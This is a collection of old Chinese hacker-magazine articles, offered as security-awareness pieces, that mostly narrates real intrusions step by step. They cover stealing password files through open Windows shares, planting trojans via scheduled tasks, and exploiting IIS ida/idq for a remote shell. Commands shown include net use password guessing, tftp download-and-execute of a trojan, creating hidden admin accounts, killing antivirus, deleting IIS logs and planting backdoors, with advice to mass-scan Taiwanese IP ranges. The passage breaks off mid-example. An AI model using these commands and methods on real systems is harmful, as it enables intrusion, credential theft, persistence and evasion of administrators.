注意一点，网内网吧大多数都使用还原卡，所以电脑重启后会自动还原，那么我们可以先避开还原卡。还原卡一般是在电脑使用硬盘启动之前把数据还原，如果不让电脑检测硬件呢？安装完 SNIFFER PRO 后，先不要点重新启动。我们来手动重启计算机，裸机选择了“重新启动计算机”后，按住“SHIFT”键，然后再点击“是”，这样就避免了计算机检测硬件，从而避开了还原卡（本人只对一些还原卡进行了测试）。把在网吧监听到的数据包打包发到邮箱，然后回去自己慢慢看。只要有足够的耐心，就能得到足够的信息。

## 总结：

通过以上攻击我们可以看出，攻击的方式一般是以弱口令及系统的致命漏洞为主。我们在网上扫描主机时也同样会出现这种情况。弱口令及系统或软件的默认安装，都是非常大的安全隐患。提醒网络管理人员，注意设置自己的用户口令、时常更换口令，及时对系统和软件的漏洞进行修补。平时不注意一点一滴，那么最后受伤的一定会是你！

## 从被造用户的全过程来看网民的安全意识


我们在上一期刊登了一篇如何入侵 Windows 9X 的文章，想必大家也略知一二了。本文却从另一个角度入侵个人用户，而且入侵的目的、方法与上文不同，相信广大读者定能从本文中学到新的思路。本文不单单着重于密码、秘密文件的盗取以及运用木马夺取更高的权限，更着重于分析造成入侵的症结，希望能给广大网民敲响警钟。

**注意：** 以下所描述的攻击手法在技术上没有任何意义！只是想借此过程分析一下网民的安全意识而已。这不是教你如何去害人，而是让你感受骇人的攻击，以旁观攻击者的阴谋。并请大家遵守国家的法律！出现任何后果与笔者无关！

在这次攻击中，我们获得了受害者的上网密码、顶级域名的 FTP 密码，和其它一些密码。还通过木马完全地控制了对方的机器，得到了我想得到的一切！

- **所用的工具：**
- 操作系统：Windows 98（比较亲切是吧？但本人惯用了 Windows 2000 Server，本文的截图均在 Win2000 下截的。）
- 入侵工具：网络刺客 II、PWLTOOL。

## 一、确定目标

看了上期关于入侵 Windows 9X 这篇文章后，我相信你对这一步已经很熟悉了。在查找 IP 地址时你可以从自己的 IP 段开始，然后使用“网络刺客 II”进行扫描。过程我就不重复了，结果如图 1 所示：


## 二、进入目标

选择开着 C 盘共享的主机进入。在盘符上点击右键，选择“映射成网络硬盘”，如图 2 所示：


在本机里双击“映射成的 I 盘”进入对方的 C 盘，如图 3 所示：


如果对方设置了访问密码，也不用担心。Windows 95/98 共享目录密码校验存在一个 BUG，我已经拷贝了一个经过改动的驱动文件到我的 Windows\System 目录下，覆盖了我原来的那个，这个驱动文件的名字是 VREDIR.VXD。这样，弹出“输入密码”窗口时，不用敲密码，只要一直按住回车键，利用这个 BUG 让它只校验第一个字节，一会儿就能进去了（最多可以试密码 256 次）。但这台机器没有设置访问密码！只要双击“映射成的 I 盘”就能进入，并且可以在里面新建文件，说明这是“完全共享”类型。经验告诉我，这台机器曾经连开过“夜中”！不管那么多，先进入到对方 C:\WINDOWS 目录下再说，如图 4 所示：

## 三、盗取秘密

进入之后，对于该用户机器上的文件，使我感兴趣的文件和文件夹有三个，分别是 C:\Windows\ 下的 *.pwl、Favorites，和 Cookies 中的 index.dat。因为 *.pwl 是上网卡、电话卡和 FTP 等密码保存的地方；Favorites 下面是他 IE 的收藏夹，他有什么爱好呢？不看就知道了；而 Cookies 中的 index.dat 呢？这个文件记录了许多曾经访问过的网站地址和 Cookie 的设定，通过它可以分析该用户上网的爱好，甚至还有（某些）聊天室、论坛、BBS 上的密码哦！

现在，我把主要精力放在寻找 *.pwl 上，这个文件是按用户名保存的，它是许多入侵者想要的东西！可是文件那么多，而且扩展名是隐藏的，怎么找呢？有办法！现在目标的 C 盘不是已经映射成我的“I”盘了吗？查看的方式当然是由我的机器控制啊。点击“查看”->“文件夹选项”中的“查看”标签，将“隐藏已知文件类型的扩展名”前面的勾去掉，然后点击“确定”，如图 5 所示。


这样，目标 C 盘的文件类型就暴露出来了。再点击“查看”->“排列图标”->“按类型”。这样，以 .pwl 为扩展名的文件就乖乖地排在一队等着我啦！如图 6 所示：

哟！有三个 .pwl 文件哦，看来用户不止机主一个人。不管那么多，先复制到我的机器上再说，如图 7。你会发现文件的图标变了，那是因为我的机器上装了 PWLTOOL 这个工具，以 .pwl 为扩展名的文件就变成它自己定义的图标了，这样可以使你在目标机器上查找这类文件时显得更方便！这个小家伙既可以查看到 .pwl 文件里的东西！这样，你就可以看到保存在该机器上的密码了。

怎么？这么容易就尝甜头了？不行！为何不放个程序到对方机器去让它运行？我想获得完整的控制权！包括以后的账户和密码我都想要（真贪心啊！）——这也是普通入侵者的心理！

## 四、植入木马，获取完整控制权

我可以拷贝一个“广外女生”到对方的“C:\Windows\Start Menu\Programs\启动”目录下，或者配置 C:\Windows 目录下的 win.ini 文件，使他下次一开机就运行木马，可是要等到下次！下次又不知道何日再相逢了，还是现在让它运行吧！于是我便尝试着配置对方的“计划任务程序”文件。具体步骤如下：先在我自己的 D 盘里放了木马“广外女生”，然后在我的计划任务中设置这个运行木马的任务（记住不要让自己运行），再到我自己电脑的 C:\Windows\Tasks 里把这两个计划任务的文件拷贝到对方机器的 C 盘的相应目录里，并把木马拷贝到对方的 C 盘下，再用“ping IP time”命令获知对方电脑的时间，最后根据这个时间重新设置对方机器的计划程序，使木马的“计划任务”过几分钟运行。

这些步骤要对方开了“计划任务”才有效，成功率不是很高，但拷贝到“启动”目录下也有他好受的了。恰好这次对方开了计划任务程序！助了我一臂之力，木马一会儿就运行了！使对方中了木马，接下来该怎么做大家都知道了吧？

至此，我的“破坏旅程”也该结束了。退回到“我的电脑”，在“I”盘上点击右键，选择“断开映射”，如图 8 所示。

通过上面详细描述，相信大家都知道在网络上开着硬盘共享的危险性了。本文的目的不是教你如何去搞破坏，而是想给大家一个感性的认识，让大家知道自己有被攻击的可能，希望大家注意安全。这完全是你的不小心造成的。更有甚者现在有些网页里含有恶意的代码，使浏览器浏览过这类网页后，硬盘自动设置为共享，而且是 C 盘的完全共享。

下面我们来分析一下该用户的安全意识问题。同时，针对此情况提几点建议，以便我们更好地做好防范工作。


该用户的安全意识存在着以下几点问题：

### 1、首先，C 盘开着“完全共享”就是这次“灾难”的罪魁祸首

大家知道，对于一般的网民，不需要与其他人共享你的资源的时候，在网络上开着共享是万万不可的。这样，在网上的任何一个人都可以看得到你硬盘上的东西，特别是开着完全共享的时候，别人就可以利用他的计算机远程操作你的文件了。如果是系统所在盘（比如 C 盘），那你的系统就由远程攻击者控制了。本例中的配置计划任务、拷贝木马到开始程序的“启动”目录下和木马的运行全过程就是操纵该用户系统的表现。

最好的防范方法是关掉所有的共享目录，实在没办法就设置一个复杂的访问密码。

### 2、其次，该用户密码过于简单，保密意识差

从取到的密码来看，该用户的许多密码设置很简单，其中有三个是：“abc123”、“china”和“admin”。这主要是为了简单好记，但伸向你的黑手是不留情的，稍稍一穷举就能猜中。所以对于密码，你不能够贪图一时的方便、好记。

### 3、选择了“保存密码”是很不好的习惯

从这一项可以看出，该用户是一个“懒惰鬼”，很多密码都选择了“保存”，便让我看到了。就算你没有打开共享，入侵者远程进不了你的机器，但如果你让多个人使用你的机器，只要有 PWLTOOL 这个工具同样能看得到。总之，这种做法是很不好的习惯。该用户个人主页的 FTP 密码都暴露了，你说黑他主页是不是很容易呢？

### 4、没有安装防火墙

连防火墙都没装，使“广外女生”能够充分发挥，开始是一个 C 盘，后来是所有的盘都受制于人了，这能怪谁呢？

### 5、安装软件都默认为装在 C 盘

这次我发现一般用户安装新软件的时候总是按照默认的路径安装在 C 盘，我觉得这样的习惯不是很好，至少应该把系统跟一般的应用软件隔离开来，装在不同的分区上好点。本来我还想将 QQ 目录下的所有用户信息都 DOWN 回来分析分析，但想想这没有必要。不过，至少在他机器上聊过天的人所有聊天记录我都能看得到。另外，该用户使用了微软的 Outlook Express 来收发电子邮件，在对方机器的“C:\Windows\Application Data\Identities\{3ED46020-ABB8-11D5-BBE7-9BF0ECE65A6E}\Microsoft\Outlook Express”目录下的“收件箱.dbx”文件里，明文也存放了最近收到的所有信件，用记事本打开就能全部看到。由信的内容发现该用户还是“某某论坛”的坛主，所有注册会员的账号密码都明文地发到他的信箱里。

最后，交代一句，本文描述的是一次真实的攻击。在行动过后，我已经联系好“受害者”，跟他说了下详细过程，上面暴露了他的三个简单密码现在都已经更改了，并且征得他的同意，本文才得以诞生。虽然这次攻击只是很简单的工具操作形式的，但又是确确实实可行的。网络上的确有很多如此不重视安全的网民存在，自愿将自己的“后门”打开。你完全可以利用本文里的手段攻击网络上任何一台类似的计算机！愿此文能提醒大家的安全意识。

同时也敬告读者，本文的目的不是教你如何搞破坏，而是将破坏者们的常用手法曝光而已，请不要利用文章的方法攻击网民！

今天终于高考结束了，所以写了这篇关于 FOR 自动密码猜测的文章，希望能够对大家有所用处。

在 Win2000 下，FOR 的命令很常用，它可以用来扫描。扫描一个如下端口：

```txt
C:\>for /l %a in (1,1,254) do start /min /low telnet 202.48.15.%a 3389
```

这个 202.48.15.x 段的所有开放 3389 端口的主机都会暴露。这条命令执行后，会在任务栏开 254 个小窗口，然后 telnet 连接失败的窗口会在大约 5 秒后自动退出，剩下的窗口就是相对应开放端口的主机了。你只要看一下小窗口的标题即可得知主机的 IP 地址，如果你觉得自己的机器性能很好的话，可以把 /low 参数去掉。

扫描一台主机的多个端口，如下：

```txt
C:\>for /l %a in (1,1,65535) do start /low /min telnet 202.48.15.52 %a
```

这样可扫描 202.48.15.52 的 1 到 65535 端口。现在扫描一个网段的所有端口：

```txt
C:\>for /l %a in (1,1,254) do for /l %b in (1,1,65535) do start /low /min telnet 192.168.0.%a %b
```

这样就会扫描 192.168.0.x 段全部 1 到 65535 端口。现在我就讲一下 FOR 执行自动密码猜测的方法，其实用 FOR 命令执行密码猜测也很简单。它是基于 NET USE 的语法，通过简单的循环，利用 NT SHELL 的 FOR 命令就可以完成。首先创建一个高频组合的用户名与密码文件，文件类似于下面的例子（任何分隔符都可以作为值的分离——我们这里用 TAB 键）：

## FOR 自动密码猜测

BADBOY

```txt
[file:passwd.txt]
password	username
password	Administrator
admin	Administrator
admin12345	Administrator
```

等等。

下面我们就将此文件应用于 FOR 命令中：

```txt
C:\for /F "tokens = 1,2*" %i in (passwd.txt) do net use \\ip\ipc$ %i /user:%j
```

此命令先解析 passwd.txt 攫取每行前两个值，前者作为变量 %i（密码），后者作为变量 %j（用户名），然后用标准 net use 命令对目标服务器的 IPC$ 共享进行尝试。FOR 命令的信息可通过在命令提示行下输入 FOR /? 获得。

## 利用 ida&idq 溢出漏洞获取 system 权限

angel

想想看，如果你用 X-scan v1.3（下载地址：http://www.sangel.org）扫描了一段 IP，200 多台有响应的主机就有 20 多台存在 ida&idq 溢出漏洞，你是否觉得很可怕，当然对于另一些人就是一种欣喜了。所以我决定写这篇文章，也算给各位网络管理员敲个警钟吧！

在被攻击地址里填上 xxx.xxx.xxx.xxx，这个溢出工具溢出很快，所以“操作系统类型”可以一个个选，这台主机是国内某大学的。所以当然是 IIS Chinese win2k 优先！（这里狂一点，如果把“绑定的命令”改成 cmd.exe，连接成功后才可以执行任意指令。如果不改，那么用 nc.exe 连接成功后会自动执行 dir c:\，显示完 C 盘目录列表后就回到本地目录了）。把“绑定的命令”改成 cmd.exe，溢出端口可以采用默认的 813，点“IDQ 溢出”一会儿就出现提示：

### 这次入侵需要的工具：

- 1. ida&idq 溢出漏洞溢出工具（IISMiscOverflowV2_Build0016.exe）
- 2. nc.exe

以上工具在 http://www.sangel.org 有下载。现在的扫描器基本上都可以查出该漏洞。

### 入侵详细步骤：

- 一、扫描
- 二、过程
- 1、填入被攻击 IP（目标主机必须是 win2k 的操作系统，并且要启动了 IIS 的 Web 服务）
- 2、选定操作系统类型，溢出。
- 3、用 nc.exe 连接
- 4、判断连接是否成功，是：往下；否：返回步骤 2。
- 5、执行任意命令，留下后门。
- 三、打扫战场。

### 实践：

### 一、扫描

这次在本文讨论范围内，很多著名的扫描器都可以扫出该漏洞，如：X-scan、流光、极御 Shadow 等扫描器，本刊已刊登过以上软件的使用方法。现在略过该步骤，直接跳到本文重点。

### 二、过程

假设被攻击主 IP 为 xx.xx.xx.xx，打开 IISMiscOverflowV2_Build0016.exe，如图 1。


“发送 shellcode 到 xxx.xxx.xxx.xxx:80 OK”。如图 2 所示：


注意，这里是指发送成功，只是发送，没有全部成功。还要看看 nc.exe，打开“命令提示符”（我的是 Win2k Server，如果你的操作系统是 Win98/Me 则是“MS-DOS 方式”），如果 nc.exe 所在的目录是 E 盘，则在“E:\”下输入：

```txt
nc -vv xxx.xxx.xxx.xxx 813
```

这个 813 就是刚才设置好的溢出端口，出现提示，如图 3 所示：


没有成功，没关系。切换到 IISMiscOverflowV2_Build0016.exe，把操作系统类型改为 IIS Chinese win2k sp2，点 IDQ 溢出，出现提示“发送 shellcode 到 xxx.xxx.xxx.xxx:80”。好！再接再厉，切换回“命令提示符”输入：

```txt
nc -vv xx.xxx.xxx.xx 813
```


哈哈……成功了，看到提示符了吧？赶快留下后门，种下木马或创建账号，这些都随便你。我不推荐种下木马，因为杀毒软件一般可以查出。你可以用 FTP 上传自己的后门或下载文件到目标主机，命令如下：

```txt
yourname
yourpass
get file.exe
bye
```

还有很多方法，比如用 TFTPD32.exe。下载地址：http://www.sangel.org，这里略过。至于创建账号，有两种选择：

- 1. 创建用户，命令如下：

```txt
net user angel 521 /add
net localgroup administrators angel /add
```

两次命令结束后均出现“命令成功完成”的提示，如图 5 所示：

```txt
C:\WINNT\system32>net user angel 521 /add
net user angel 521 /add
命令成功完成。

C:\WINNT\system32>net localgroup administrators angel /add
net localgroup administrators angel /add
命令成功完成。
```

图 5

这样就创建了一个名为 angel、密码为 521 的用户，并添加进管理员组。但这样容易被发现，你还有第 2 种选择。

- 2. 激活 guest，命令如下：

```txt
net user guest /active:yes
net user guest 521
net localgroup administrators guest /add
```

```txt
C:\WINNT\system32>net user guest /active:yes
net user guest /active:yes
命令成功完成。

C:\WINNT\system32>net user guest 521
net user guest 521
命令成功完成。
```

图 6

这样就激活了 guest 这个账号，并把它的密码设为 521，而且添加进了管理员组。如果账号本来就是激活状态，你只要直接输入修改两行命令就可以。别忘了，如果目标主机没有 23 端口的话，记得先让它运行远程登录服务，在提示符下输入：

```txt
net start telnet

C:\WINNT\system32>net start telnet
net start telnet
Telnet 服务正在启动。
Telnet 服务已经启动成功。
```

图 7

### 三、打扫战场

最后别忘了冲到 c:\winnt\system32\logfiles 下去处理一下日志，删改随便你，但有些文件不能删除是因为服务运行，所以还要停掉相关服务，这也不在本文讨论范围，请自行处理。

本文只具有教学目的，如果你因本文而进入国内主机，请不要修改任何数据或执行任何毁灭性操作，并通知其管理员。如使用本文引起的一切法律后果，请自负。谢谢合作，另外，本文如有遗漏或错误请指出。


现在微软的漏洞可谓天下皆知，利用这些漏洞可以很容易地进入一台 Win2k 主机。那么如何避免 80 端口下的入侵被检测到呢？我们从最基础的 IIS 的安全日志入手。

WWW 日志默认情况每天生成一个日志文件，包含了该日的一切记录，文件名通常为 ex（年份）（月份）（日期），例如 ex020508，就是 2002 年 5 月 8 日产生的日志，用记事本就可直接打开。如下例：

```txt
#Software: Microsoft Internet Information Services 5.0
#Version: 1.0
#Date: 20010608 03:15
#Fields: time c-ip cs-method cs-uri-stem sc-status
03:15 127.0.0.1 [I]USER administrator 331（IP 地址为 127.0.0.1，用户名为 administrator，试图登录）
0318 127.0.0.1 [I]PASS - 530（登录失败）
0322 127.0.0.1 [I]USER administrator 331（IP 地址为 127.0.0.1，用户名为 administrator，试图登录）
0324 127.0.0.1 [I]PASS - 230（登录成功）
0325 127.0.0.1 [I]QUIT - 550（退出 FTP 程序）
```

从日志里就能看出 IP 地址为 127.0.0.1 的用户一直试图登录系统，换了两次用户名和密码才成功，管理员立即就可以得知入侵时间、IP 地址以及探测的用户名。

我们的入侵就留下了痕迹！通过那段时间的 IP 就能查到我们的电话，进而找到我们。

那么毫不犹豫删除它不就可以了吗？NO…NO…怎么？是的，现在不能这样做。因为缺省情况下，微软的 IIS4、IIS5 将所有 HTTP 请求以 W3C 扩展日志文件格式存入日志文件中，该日志文件位于 winsystem/system32/logfiles/w3svc1 目录下，每天都会创建一个日志文件。

WEB Server 运行时，用户无法删除当天的日志文件，因为它被 W3SVC 服务锁定了。必须停止该服务才能删除当天的日志文件：net stop w3svc，然后就可以删除记录你的踪迹的日志文件了。删除后别忘了把服务打开：net start w3svc。

同理，FTP 的日志在：winsystem/system32/logfiles/msftpsvc1 下面，它的相关服务程序是 msftpsvc。

这是最基本的消除方法，大家千万记住！

# 一个人的战争

### 二次利用 IDQ 漏洞

进行攻击的详细过程

坏小子

一日在网上闲着没事乱扫，发现有一个网段内有几十台机器都开着端口 80，这不禁引起了我的怀疑。起初我也以为都是上网用户，但在 IE 地址栏里输入这些 IP 后才发现，大部分都是一些网站。

看来这次有得干的了。打开流光的“高级扫描工具”，如图 1 所示。


选好网段（如果目标确定的话就选中一个 IP 就可以），选择的目标主机的类型为 Windows NT/2000，如图 2 所示，点击“确定”后会出现如图 3 的选项。如果你有肉鸡的话可以利用它来做代理板；如果没有，用自己的机器也无所谓，这点就不用多说了。点“开始”，然后就等待结果吧！

扫描结束后，我发现我扫的这台机器漏洞还真不少。但这次主要是讲述利用 IDQ 漏洞进行攻击，所以其它也就不管了。扫描结果中如果大家可以看到如图 4 中显示的结果，这说明该主机可利用 IDQ 进行入侵。


先来看看由 IDQ 直接造成的后果是什么吧！假设有漏洞的机器 IP 地址为 x.x.x.x，然后按如下格式：http://x.x.x.x/*.idq，会看见如图 5 的效果，这就是最直接的危害：暴露文件存放路径。


接下来我们再来点更猛的——为了进一步控制，我们植入木马；下面我们需要用到两个工具：IISIDQ 和大名鼎鼎的 NC。打开 IISIDQ，界面如图 6 所示，在“被攻击地址”里填入主机的 IP 地址和要监听的端口（我选的是 5100，大家可根据自己的爱好选择）。在要绑定的命令处我们暂时先使用软件自身默认的命令“cmd.exe /c dir c:\”，然后再在左边窗口中选择系统类型。（以上设定在图中均有标明）


一切设定完成后，点击“IDQ 溢出”按钮，会弹出对话框，告诉你已经成功发送数据到 80 端口（此端口可自己设定），如图 7 所示。


然后打开你的命令提示符，并进入 NC 所在路径，键入：

```bash
nc -v IP地址 5100
```

（你在 IISIDQ 中设置的端口号）

这时只要你的攻击成功，会出现如图 8 所示的效果。怎么样？C 盘下的东西全被你看到了吗？


图 8

也许有人会认为这个没什么用。其实这个漏洞的危害远不止于此，大家继续看吧！

到了这里我会出心了吗？怎么也要弄个木马上去才可以啊！怎么上传呢？好好想想，IISIDQ 中不是有个可以绑定命令的地方吗？这里我们只要稍加点技巧就可以上传木马了。首先我们需要 TFTP 这个工具，把自己做成一个 FTP 服务器。打开 TFTP 工具，设置你的根目录（在这里我设置的是 E 盘为根目录），然后最好把超时设得大一点，这样在线路不是很好的时候，也可以实现上传，否则很容易就会超时。点击最小化按钮，它会自动把窗口隐藏，并在任务栏右下角里显示。

接下来我们在 IISIDQ 的命令绑定处写下如下的命令：

```bash
cmd.exe /c tftp -i 127.0.0.1 GET love.exe c:\winnt\system32\love.exe
```

其中 love.exe 就是我的木马的服务端，而地址 127.0.0.1 代表自己的 IP，这里我所指的 IP 是指上网时 ISP 商分配的 IP，而不是 127.0.0.1 这个回环地址。你可以用 ipconfig 命令查一下自己的 IP。

还有一点要注意，就是你的木马服务端一定要放在你的 TFTP 的根目录下（我的根目录为 E 盘，所以我就放在 E 盘的根目录下了）。

然后再点一下“IDQ 溢出”，显示成功发送数据后再次执行 nc 命令：

```bash
nc -v 远程机IP 5100
```


如果你的网速够快、线路够好的话，就会出现如图 9 所示的情况，这表示你的木马已经上传成功了。


图 9

接下来就要运行木马了，运行的方法我想大家都知道。我们既可利用 at 命令来制定任务计划，也可以直接运行。下面我们来说说直接运行木马。

在 IISIDQ 的绑定命令处写上如下内容：cmd.exe /c start c:\winnt\system32\love.exe

然后点击“IDQ 溢出”，再运行 nc -v ip地址 5100，等待一会，出现如图 10 所示的情况时说明木马已经运行了。


图 10

最后用木马客户端去连接这个主机，接下来该怎样相信大家都会做了。

在整个过程中，有的时候发送一次数据到指定端口，然后再执行 nc 命令可能看不到正确的信息，这时不要放弃，多发送几次数据然后再执行 nc，就会看到端口打开的信息了。这主要是取决于线路和“带宽”，想要成功率高的话就换宽带吧！

好了，以上就是我的一次利用 IDQ 漏洞的入侵，好像有点麻烦，但足以证明小洞洞造成的严重后果。

我把这篇入侵过程写出来的目的，也正是为了向大家说明不要忽视小漏洞，因为现在个人上网也有很多人都开着 Web 服务（像我就是其中一个），所以很有可能成为黑客们的攻击目标，或是自己中了木马都不知道怎么回事！

### 一、NetBIOS 简介

NetBIOS 和 NetBIOS 扩展用户接口协议（NetBEUI）是 IBM 和 Microsoft 为支持小型局域网或大型局域网的网络通信而设计的。NetBIOS 是网络节点上建立的带有逻辑名字。这个名字可以由 1 到 15 个字符组成，对计算机和用户特指了一个工作站。当网络计算机第一次创建或连接到网络的时候，就指定了名字。

NetBIOS 是可以绑定到其它协议上的，例如 TCP/IP 协议。所以在 Internet 上，只要你打开了你的 NetBIOS，人们就可以和你进行连接和会话的，这就说明了 NetBIOS 就是一扇永远的后门。

NetBIOS 的端口：主要对应的端口是 UDP 端口 137、138，这两个端口主要用于传输文件。NetBIOS 还有一个 TCP 端口，就是 139 端口，这也是我们常利用的后门，而且在判断对方机器类型的时候，139 端口也经常拿来作为一个判定标准。

### 二、NetBIOS 的主要危害

NetBIOS 主要是应用于局域网内的一些服务，主要是用来访问共享，但是由于它可以被绑定到一些开放式协议上，所以一些内部网络的共享很有可能就成为了大家的公用设施了。而且 NetBIOS 中含有机器名等信息，所以很容易暴露你的机器名等一些内部网络的信息，这也带来了许多的不安全因素。

选择设定为 139 端口，就可以扫描了。一般只要不出意外的话，随随便便扫出一批来是不成问题的。然后打开命令提示符（如果用的是 Win98 的话那就打开 MS-DOS），键入下列命令：

```bash
nbtstat -a ip
```

（这个 IP 就是你扫到的打开了 139 端口的主机）

稍等片刻，就会返回如图 1 所示的信息。从这些信息中可以得知，对方的机器名为 www-server，并且这个机器隶属于 NEWTIME 组。


好，有了对方机器名了，我们在本机上去找 lmhosts.sam 这个文件，并用记事本打开，然后对其进行编辑，并按图 2 所示中的格式，即“IP地址 机器名”的格式添加上对方的 IP 地址和机器名，具体操作如图 2。


然后把它保存，接下来右键点击“网络邻居”，并选择“搜索计算机……”（如果使用的是 Win98 的话就直接在开始菜单里找这项）。随后按要求填入对方计算机名 www-server，再点击“立即搜索”就等着结果吧。这里也许要多搜索几次才能查到对方主机（不过我一次就搜到了）。总之不要灰心，多搜几次，只要对方没下线，绝对能找到。随后如图 3 所示，会出现搜索到的主机，然后双击那个图标，只要对方开着共享，就可以进入了。


如果对方设置共享的权限再大一点的话，呵呵……那就可以干不少事了（请不要做坏事）。如果对方设置了密码那就有点麻烦了，这样我们还要进行破解。如果对方机器用的是 Win98 操作系统时，我们可以利用 Win98 共享密码的漏洞来进行快速登录，至于方法在第三期中已经写得很详细了。而且我也是做到这里就收手了。

### 三、关闭 NetBIOS

大家可以看到，像这样入侵主机真的是非常容易，而且像这样的主机也实在是太多了。有人要问，既然危害这么大，有没有什么办法防范呢？当然有了，像一些没有必要开设共享的机器我们就可以把 NetBIOS 关掉，方法为：

- 点击“开始”→“设置”→“控制面板”→“网络”，在“配置”对话框里只保留其中的 TCP/IP 协议和拨号网络适配器，并且在“TCP/IP 协议”中不要把 NetBIOS 绑定到 TCP/IP 协议上，这样就可以禁止 NetBIOS 了。

以上方法是针对拨号用户的，使用网上上网的用户方法也相似，道理都一样。

如果是使用局域网的用户，在设置共享时要记住加上密码，而且密码要复杂些，最重要的就是不要和机器名或工作组名相同或相似。因为大家也看到了，我们很轻松地就得到了对方的机器名和工作组名。如果是使用 Win98 的用户千万要注意打上补丁，否则利用漏洞进行入侵的话，那可要比破解密码更容易了。

我想，只要大家都按照以上方法做了，即使有人扫描到你打开了 NetBIOS，那么他也会放弃的，除非他跟你有什么深仇大恨，要不然他就是白痴。

希望大家通过这篇文章，对 NetBIOS 有所了解，并且明白了其危害和防御措施，那么我的目的也就达到了。


入侵的文章你也许看了很多，觉得使用的方法都是大同小异。那么，你在使用这些工具的过程中是不是想到过让它们来一个优势互补呢？这篇文章只是讲了他的思路的一小点入侵过程，入侵以后还有很多可利用的工作没有讲出来，这就需要你去体会了。你也可以结合本刊的其它内容来灵活运用。

很多人都认为空口令实在是不多，而且木马蓝色火焰也不太好用！不过我们可以利用蓝色火焰打开对方 FTP 来上传更好的木马，因为蓝色火焰的服务端比较小，而且这个木马非常简单，菜单用橙色还不错。

蓝色火焰我用得很简单，它的使用方法这里就不做过多的讲解了。首先我用 superscan3.0 进行扫描，因为它的速度比较快。建议大家扫描台湾段的 IP，因为台湾电信方面条件比较好，个人上网用户成天挂在线上的多的是，而且个人用户又不太注意安全，或者是一些小的网络公司或小的组织机构，所以空密码也比较多。

大家都知道台湾的 IP 吗？台湾 IP 段是：202.039.000.000-202.039.255.255

大家尽情去扫吧！扫描完成后会发现有一大堆空密码等着你，那我们就不客气了，打开命令提示符，键入：

```bash
net use \\ip（你扫到的IP）\ipc$ /user:"administrator"
```

如果对方已经开了 IPC 连接，会在下边弹出要求你输入密码的提示，因为我们要找的是空密码，所以直接回车就可以！（顺便说一句，很多密码和机器名一样，所以利用 superscan 扫描到的机器中如果开了 139 端口的话，我们可以利用命令 nbtstat -a ip address 来得到他的机器名，再用机器名去连接也可以。）

如果接下来提示密码不正确，我们就换一台，反正机器有的是！找到了空密码后，在命令提示符下键入：

```bash
copy e:\bluefire\love.exe \\ip address\admin$\system32
```

其中，love.exe 是我用蓝色火焰客户端生成的服务端，admin$ 是对方的默认共享，即为 C:\WINNT 文件夹。

过一会传来信息提示复制了一个文件，这时候我们用 net time \\ip address 命令来查看对方系统的时间，比如对方现在为“上午 11:05”，那我们立刻使用命令：

```bash
at \\ip address 11:07 love.exe
```

（考虑到延时，所以启动时间要靠后一点，可依自己的网络速度而定），接下来提示“成功地添加了一项任务”并分配给该任务一个 ID 号。

接下来就是等待，再用 net time 看一下对方的时间，当时间到了以后我们就开始使用蓝色火焰。

先 telnet 上去，命令：telnet ip（已连上的 IP）19191，过一会会出现如图 1 所示的窗口，然后输入你设定的密码，就可以连接上去。


连接上去后再输入一次 help 命令，如图 2 所示。


建议大家先用命令 list 查看一下对方的进程（也许有杀毒软件呢！），如图 3 所示。


果然对方开着 KV 的杀毒软件，那我们就只好对不起他了，我们用 KILL ID 的命令来杀掉它，如图 4 所示，过一会会返回成功的信息。


接下来我们干什么呢？因为我早就说过，蓝色火焰虽然好用，但并不是一匹好马，所以我们要再上传 FTP 马上去。我们利用蓝色火焰的命令 open ftp 来打开对方的 FTP，这时候我们再利用 FTP 连到对方机器上，如图 5 所示。


把事先准备好的另外一个木马的服务端传上去（传什么马就依你个人爱好），然后再用 at 命令来启动它，这里就不赘述了。

接下来就可以享受战果了！请不要用以上方法做违反法律的事。如有，一切后果自负！

# 为假后门制作后门

我们已经成功地入侵了系统，取得了 admin 和 root 权限后，怎样才能保护或者扩大自己的入侵成果，以便当我们下次再登录的时候，可以不被管理员发现。即使发现我们的足迹，修改了密码后，我们还是可以再次登录，这个一直是困惑菜鸟的问题。

很多初学黑客技术的朋友，有可能还未听说过后门。其实所谓的后门，只是一个比较形象的说法。我们可以把整个系统比做一个“大院”，当我们已经利用一些漏洞或者密码的探测拿到了暂时的访问权限后，就可以直接拿着系统发给你的钥匙，从大门进去。一旦你有了这个权限的时候，也就是系统给你制作了认证后，可以偷偷地在系统“大院”建立一个后门。此时系统会给你再发一个钥匙。当这个大院的管理员发现了你的入侵，修补了系统漏洞，更换了管理员的密码，这个时候，我们可以利用我们自己建立的后门钥匙，悄悄地进入系统。

### Windows NT 下的后门制作

### 1、密码后门

这个后门已经很老了，在很久以前就被黑客们利用。但是直到今天却一直很流行，是因为它实现起来很容易也很简单。当系统的管理员发现了我们，并修改了我们当前账号的密码，我们可以寻找一些不常用的、系统自带的用户，并修改其密码，即使管理员检查的时候也很难发现我们已经修改了密码。比如，通常我们可以把系统默认用户 guest 的密码修改，并加到管理员权限里。

举个简单的例子：我们完全控制了系统，已经建立了 ipc 通道。管理员用户名和密码都是 ADMIN，现在在自己的机子上运行 cmd，输入：

```bash
C:\>NET USE \\127.0.0.1\IPC$ "ADMIN" /USER:
"ADMIN"
命令成功完成
C:\>NET USE X: \\127.0.0.1\C$
命令成功完成
C:\>NET TIME \\127.0.0.1 /SET
是否与\\127.0.0.1的时间一致? [Y/N]Y
命令成功完成
C:\>AT \\127.0.0.1 18:00 C:\WINNT\SYSTEM32\NET.EXE USER hack521 123 /ADD
计划成功添加 ID=1
C:\>AT \\127.0.0.1 18:02 C:\WINNT\SYSTEM32\NET.EXE LOCALGROUP Administrators hack521 /ADD
计划成功添加 ID=2
```

OK，我来解释一下！

127.0.0.1 是你本地的 IP 地址，具体实战的时候替换成对方的网络 IP 地址。

NET TIME \\127.0.0.1 /SET 将本地时间与服务器时间同步。

两行 AT 命令分别在 18:00 与 18:02 执行服务器的两个 NET 命令，前一个是创建一个用户，后面的是将用户提升为系统管理员。

这样，我们以后就可以用 hack521 这个用户访问这台服务器了！有的时候我们拿到了 SQL 的用户和密码，同样可以找个工具“sqlcmd.exe telnet”进去，输入用户名和密码，可以直接在对方的 cmd 下添加用户密码后门，原理类似，这样就不怕管理员查封了 ADMIN 的密码。当然，我们还需要把 hack521 隐藏，可以利用克隆技术（这里不细说）。

#### 2、TCP SHELL 后门

我们可以通过基于网络身份通行证做后门。因为我们用特定的程序运行在对方系统里，这样利用程序为我们打开的非普通服务的端口提供通道，而这些似乎正常的标准端口，管理员即使通过 NETSTAT 查看服务端口，也未必知道哪个端口是为我们提供的后门服务。举个例子：

例 1：

```bash
